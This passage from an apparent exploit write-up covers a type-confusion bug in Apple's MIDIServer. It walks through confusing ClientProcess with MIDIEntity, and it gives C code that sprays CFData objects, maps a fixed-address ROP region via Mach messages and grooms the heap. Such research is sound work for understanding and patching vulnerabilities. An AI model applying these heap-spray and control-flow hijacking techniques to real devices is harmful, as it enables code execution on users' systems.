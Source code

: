 ```
                BLR             X8
```

As you can see here, the EmptiedReadBuffer code path will effectively immediately dereference a couple of pointers within the type-confused object and branch to an address which can be attacker controlled. The call looks something like this: `obj->0x78->0x10(obj->0x20)`. 

### Exploitation 

In order to exploit this bug we can confuse the `ClientProcess` type with a `MIDIEntity` instance. `MIDIEntity` is of size 0x78, which makes it a perfect target as it means the first dereference that is performed on the object (at 0x78) will be in out of bounds memory. You *could* then align some controlled data after the MIDIEntity object, however because we are in userland there is a better way.

The `MIDIObjectSetDataProperty` API call will unserialize CoreFoundation objects into MIDIServer's heap, so using this call we can spray CFData objects of size 0x90. The exploit then sends two Mach messages containing an OOL memory descriptor, mapped at the static address `0x29f000000` (for some reason it is required to send the message twice, else the memory will not be mapped; I am not sure on the cause of this). This memory is a large continuous CoW mapping which contains the ROP chain used later in exploitation, and importantly a function pointer located at the `0x10` offset to be dereferenced by the `EmptySecondaryQueue` code. 

The following code sets up the CFData objects which are sprayed into MIDIServer's heap:
```
  Prepare_bunch_keys(); // For iterating
  size_t spraybufsize = 0x90;
  void *spraybuf = malloc(spraybufsize);
  for(int i=0; i<spraybufsize; i+=0x8){
      *(uint64_t*)(spraybuf + i) = SPRAY_ADDRESS; // The 0x29f000000 address
  }
  CFDataRef spraydata = CFDataCreate(kCFAllocatorDefault, spraybuf, spraybufsize);
```

And the heap is crafted here:
```
  // OSStatus MIDIClientCreate(CFStringRef name, MIDINotifyProc notifyProc, void *notifyRefCon, MIDIClientRef *outClient);
  uint32_t mclient_id = 0;
  MIDIClientCreate(CFSTR(""), useless_notify, NULL, &mclient_id);
  printf("MIDI Client ID: 0x%x\n", mclient_id);
  
  // OSStatus MIDIExternalDeviceCreate(CFStringRef name, CFStringRef manufacturer, CFStringRef model, MIDIDeviceRef *outDevice);
  uint32_t mdevice_id = 0;
  MIDIExternalDeviceCreate(CFSTR(""), CFSTR(""), CFSTR(""), &mdevice_id);
  printf("MIDI Device ID: 0x%x\n", mdevice_id);
  
  // OSStatus MIDIObjectSetDataProperty(MIDIObjectRef obj, CFStringRef propertyID, CFDataRef data);
  for (int i = 0; i < 300; i++)
  {
      MIDIObjectSetDataProperty(mdevice_id, bunchkeys[i], spraydata); // Each call will unserialize one CFData object of size 0x90 
  }
  
  // Sends 1 OOL descriptor each with the spray memory mapping 
  Send_spray_mem();
  Send_spray_mem();
  
  // OSStatus MIDIObjectRemoveProperty(MIDIObjectRef obj, CFStringRef propertyID);
  // Removes every other property we just added
  for (int i = 0; i < 300; i = i + 2)
  {
      MIDIObjectRemoveProperty(mdevice_id, bunchkeys[i]); // Free's the CFData object, popping holes on the heap 
  }
```